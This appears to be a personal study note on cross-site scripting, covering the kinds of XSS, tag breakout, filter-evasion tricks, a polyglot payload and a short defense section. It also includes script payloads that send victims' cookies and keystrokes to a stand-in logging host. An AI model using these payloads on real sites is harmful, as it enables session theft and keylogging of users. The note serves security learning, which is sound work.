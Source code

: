 # XSS (Cross Site Scripting) Attacks

author:: Nathan Acks  
date:: 2022-07-11

Types of XSS attacks:

* Reflected (URL-based, no server-side storage)
* Stored
* DOM-based (really client-side)

DOM-based attacks are *client* side - with both reflected and stored XSS, the server is embedding the attack into the page that's being rendered. For DOM-based attacks, it's the *client* that inserts the malicious JavaScript into the page (even if the data was provided by the server). Ask yourself: "How did this get into the page? Did the server put it there (reflected/stored XSS), or did my client put it there (DOM-based XSS)?"

The canonical (but highly annoying) XSS PoC is:

```html
<script>alert('XSS');</script>
```

A much less annoying XSS test is to manipulate the `innerHTML` of page elements:

```html
<script>
	xssTest
		= document.querySelector("h1");
	xssTest.innerHTML = "XSS was here!";
</script>
```

* [Document.querySelector()](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector)

# Tips for Writing JavaScript

JavaScript accepts back-ticks as a type of quotation mark, so we actually have three different marks to work with (single quote, double quote, and back-tick).

Sometimes you'll need to break out of a tag that you're being inserted into. Various options:

* Use `">` if you're being inserted into an HTML attribute.
* Use `</pre>` or `</textarea>` for preformatted blocks and text areas.
* Use `';` followed by `;//` for direct JavaScript inserts. (Note that it's only possible to insert `<script/>` tags if the JavaScript you're abusing is being included from a file, as HTML parsers are greedy about the closing `</script>` tag.)

Most regular expressions and filters are only executed in a single pass. Thus, a regular expression that's filtering out `<script>` and `</script>` tags can be circumvented by using `<s<script>cript>` and `</s</script>cript>`. That said, this trick doesn't work for regular expressions that are removing single characters (for example, `<` and `>`).

You can also use the `onload` attribute to pull in JavaScript, though note that this is only functional the first time the page is loaded. This will often require you to close out the preceding attribute (`"`) and *leave off* the trialing `"` of the `onload` attribute in order for everything to work properly.

There's also "polygot" strings which work in a variety of contexts. These have some pretty wild escaping going on; for example, the following (lightly modified from TryHackMe's example) produces an "XSS" alert:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert('XSS')//>>
```

# Filter Evasion

## Bypass Simple Word Filtering

In general, you can break up strings to get around this.

```javascript
alert("H" + "ello")
```

The `eval()` function can be used to turn strings into function names if a function is filtered.

```javascript
eval("a" + "lert")("Hello")
```

It's also possible (and safer, though if we're breaking into things we probably care a lot less about safety) to use `window[]`.

```javascript
window["a" + "lert"]("Hello")
```

For really heavy filtering, use something nutso like JSFuck.

(Note that things like the JavaScript Obfuscator Tool won't always remove functions and strings, as they tend to be geared more towards thwarting script analysis than bypassing filters.)

Sometimes filters are applied in a case-sensitive fashion. While JavaScript *is* case-sensitive, URL schemes, HTML tag names, and HTML tag attributes are case-*insensitive* (so, `javascript:` is treated the same as `javaSCRIPT:`, `onclick` is treated the same as `ONCLICK`, etc.).

* [JSFuck](http://www.jsfuck.com/)
* [JavaScript Obfuscator Tool](https://obfuscator.io/)

## Using iFrames and Images

Typically XSS attacks work by injecting `<script/>` tags, but it's also possible to inject JavaScript using the `<iframe/>` and `<img/>` tags by setting the `src` attribute to the `javacript:` pseudo-protocol. For example:

```html
<!-- iframe injection -->
<iframe src="javascript:alert('XSS');"/>

<!-- img injection -->
<img src="javascript:alert('XSS');"/>
```

Note, however, that JavaScript loaded in an `<iframe/>` won't have access to the parent page's DOM.

## Fallbacks Requiring User Interaction

Finally, `javascript:` URIs can also be included in anchor(`<a/>`) `href` attributes, as well as `onmouseover` and `onclick` attributes (which can be attached to almost any HTML tag). Getting these attacks to fire requires a user to interact with the modified tag, however.

# Attacks

## Accessing Browser Cookies

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

## Keylogging

```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?cookie='
				+ btoa(document.cookie)
				+ '&keypress='
				+ btoa(e.key)
		);
	}
</script>
```

Adding the user's session cookie here allows us to tell whose keystrokes are whose!

* [Document.cookie](https://developer.mozilla.org/docs/Web/API/Document/cookie)

## Port Scanning

[An example JavaScript port scanner (possibly broken).](https://github.com/aabeling/portscan)

## Website Defacement

You can access elements of the DOM using `document.getElementById("element-id")` or `document.querySelector("#element-id")`. The `querySelector()` method is a bit more flexible (you can use CSS-style selectors here) and should probably be preferred.

To get/set the content of an element, use the `innerHTML` method (to insert HTML directly into the DOM), or alternately `innerText` or `textContent` to set element text *only*.

Note that `<script/>` tags inserted by setting an element's `innerHTML` are *not* executed, however!

# Defense

The key to defending against XSS is really to get your encoding right. User-generated code that's passed off to JavaScript needs to be JavaScript-escaped first. User-generated code that's written into the DOM needs to be HTML-escaped first. Know what the context is of your data, and escape/unescape appropriately when writing data from one context to another!
